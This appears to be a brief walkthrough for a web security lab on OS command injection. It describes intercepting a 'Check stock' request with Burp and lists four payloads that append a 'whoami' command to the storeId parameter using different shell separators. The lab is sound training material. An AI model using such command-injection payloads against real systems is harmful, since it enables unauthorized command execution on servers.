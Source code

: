 Visit a product details page. Then, click on ` Check stock ` button and intercept the request with Burp. Then send the request to repeater. Next, on the repeater tab, use one of the following payloads to solve the challenge:-

```
productId=2&storeId=1%26whoami
productId=2&storeId=1;whoami
productId=2&storeId=1|whoami
productId=2&storeId=1%0awhoami
```
